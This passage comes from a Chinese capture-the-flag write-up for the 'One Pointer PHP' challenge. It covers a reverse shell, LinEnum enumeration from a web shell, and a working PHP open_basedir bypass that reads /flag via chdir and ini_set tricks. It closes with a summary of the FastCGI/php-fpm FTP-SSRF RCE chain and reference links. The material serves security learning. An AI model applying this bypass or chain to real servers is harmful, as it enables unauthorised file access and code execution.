

下面就是suid提权了，那么大一个700 flag就在眼前

### 拿shell

既然可以执行恶意.so文件，那么直接弹个shell回来



在web shell上传自动化提权探测脚本，这里用的是[LinEnum](https://github.com/rebootuser/LinEnum)，执行脚本，这里上传到哪都可以，毕竟已经突破了限制还弹了shell

```
/var/www/html/LinEnum.sh -s -r report -e /tmp/ -t
```

查看report



没想到php就有s权限，直接运行即可

写文件

```php
<?php
mkdir('gyy');
chdir('gyy');
ini_set('open_basedir','..');
chdir('..');chdir('..');chdir('..');
chdir('..');chdir('..');chdir('..');chdir('..');
ini_set('open_basedir','/');
var_dump(file_get_contents("/flag"));
```

直接运行



GET IT

关于phpfpm与FastCGI模式的研究建议仔细看看部分参考文章，总的来说就是

FastCGI加载并调用hpdoger.so->bypass base_opendir->ftp-ssrf请求恶意ftp服务->本地php-fpm->rce

---

参考文章：

[Ha1c9on](https://ha1c9on.top/2021/04/29/lmb_one_pointer_php/)

[PHP绕过open_basedir列目录的研究](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html)

[glob://](https://www.php.net/manual/zh/wrappers.glob.php)

[php-fpm的攻击方式](https://xz.aliyun.com/t/5598)

[PHP-FPM Fastcgi 未授权访问漏洞](https://www.cnblogs.com/leixiao-/p/10226633.html)

[Fastcgi绕过姿势](https://www.anquanke.com/post/id/186186#h3-3)

[利用ftp 与 php-fpm 对话 RCE](https://www.anquanke.com/post/id/233454)

[复现平台buuoj](https://buuoj.cn/challenges#[%E8%93%9D%E5%B8%BD%E6%9D%AF%202021]One%20Pointer%20PHP)